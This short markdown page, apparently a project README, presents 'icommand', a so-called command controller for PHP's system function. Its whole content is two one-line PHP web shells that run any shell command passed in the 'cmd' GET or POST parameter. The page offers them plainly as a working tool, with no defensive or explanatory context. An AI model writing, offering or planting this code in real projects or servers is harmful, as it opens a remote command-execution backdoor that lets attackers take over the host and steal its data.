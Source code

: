 ### icommand - command controller for PHP system function
- - -   
<p>icommand works for **POST** and **GET** requests:  
`<?php system($_GET['cmd']); ?>`  
`<?php system($_POST['cmd']); ?>`

